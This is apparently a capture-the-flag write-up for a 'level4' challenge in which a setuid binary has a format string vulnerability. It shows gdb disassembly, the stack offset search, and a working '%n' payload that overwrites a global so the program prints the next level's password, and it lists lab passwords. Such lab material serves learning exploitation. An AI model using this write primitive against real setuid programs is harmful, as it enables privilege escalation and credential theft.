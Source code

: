 # Level4 - Format string vulnerability - Basic write unsigned integer

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level4 | `b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa` |
| level5 | `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

1. Connect to `level4` user

```shell
ssh level4@$SNOW_HOST -p 4242
# Enter the password

ls -l
> -rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
```

Notice there is a binary with level4 setuid and setgid.

2. Debug level4

Execute level4

```shell
./level4
(stdin) abcdef
> abcdef
```

Seems to be like previous levels.

Lets debug the binary

```shell
(gdb) info functions

> (...)
  0x08048444  p
  0x08048457  n
  0x080484a7  main
  (...)
```

```shell
gdb-peda$ pdisas main
# (...)
gdb-peda$ pdisas p
# (...)

gdb-peda$ pdisas n
  0x08048457 <+0>:     push   ebp
  0x08048458 <+1>:     mov    ebp,esp
  0x0804845a <+3>:     sub    esp,0x218
  0x08048460 <+9>:     mov    eax,ds:0x8049804              # 0x8049804 <stdin@@GLIBC_2.0>
  0x08048465 <+14>:    mov    DWORD PTR [esp+0x8],eax
  0x08048469 <+18>:    mov    DWORD PTR [esp+0x4],0x200     # 0x200
  0x08048471 <+26>:    lea    eax,[ebp-0x208]
  0x08048477 <+32>:    mov    DWORD PTR [esp],eax
  0x0804847a <+35>:    call   0x8048350 <fgets@plt>         # call fgets(buf, 0x200, stdin)
  0x0804847f <+40>:    lea    eax,[ebp-0x208]
  0x08048485 <+46>:    mov    DWORD PTR [esp],eax
  0x08048488 <+49>:    call   0x8048444 <p>                 # call p()
  0x0804848d <+54>:    mov    eax,ds:0x8049810              # 0x8049810 <m>:  0x00000000
  0x08048492 <+59>:    cmp    eax,0x1025544                 # compare 0x1025544 (16930116) and 0x8049810
  0x08048497 <+64>:    jne    0x80484a5 <n+78>
  0x08048499 <+66>:    mov    DWORD PTR [esp],0x8048590     # 0x8048590: "/bin/cat /home/user/level5/.pass"
  0x080484a0 <+73>:    call   0x8048360 <system@plt>        # call system()
  0x080484a5 <+78>:    leave
  0x080484a6 <+79>:    ret
```

After looking the condition, we want write the value `0x1025544` at the address `0x8049810`.

We need to know the buffer address.

```bash
gdb-peda$ b *p+17 # just after printf
gdb-peda$ run <<< AAAA
[------------------------------------stack-------------------------------------]
0000| 0xbffff410 --> 0xbffff440 ("AAAA\n")
0004| 0xbffff414 --> 0xb7ff26b0 (pop    edx)
0008| 0xbffff418 --> 0xbffff684 --> 0xb7fd0ff4 --> 0x1a4d7c
0012| 0xbffff41c --> 0xb7fd0ff4 --> 0x1a4d7c
0016| 0xbffff420 --> 0x0
0020| 0xbffff424 --> 0x0
0024| 0xbffff428 --> 0xbffff648 --> 0xbffff658 --> 0x0
0028| 0xbffff42c --> 0x804848d (<n+54>: mov    eax,ds:0x8049810)
0032| 0xbffff430 --> 0xbffff440 ("AAAA\n")
0036| 0xbffff434 --> 0x200
0040| 0xbffff438 --> 0xb7fd1ac0 --> 0xfbad2088
0044| 0xbffff43c --> 0xb7ff37d0 (<__libc_memalign+16>:  add    ebx,0xb824)
0048| 0xbffff440 ("AAAA\n")
[------------------------------------------------------------------------------]
```

The buffer pointer is 12 addresses before the printf argument.

So we can build our exploit:

- `m` address: `0x8049810` <=> `\x10\x98\x04\x08`
- value: `0x1025544 - 0x4 = 0x1025540` <=> 16930112
- buffer relative address: `%12%n`

=> `"\x10\x98\x04\x08" + "%16930112x" + "%12$n"`

Lets try

```bash
./level4 < <(python -c 'print("\x10\x98\x04\x08" + "%16930112x" + "%12$n")')
> (...)
  0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

---

## Sources

### Format string vulnerability

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/)

### Shell

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man system](https://linux.die.net/man/3/system)
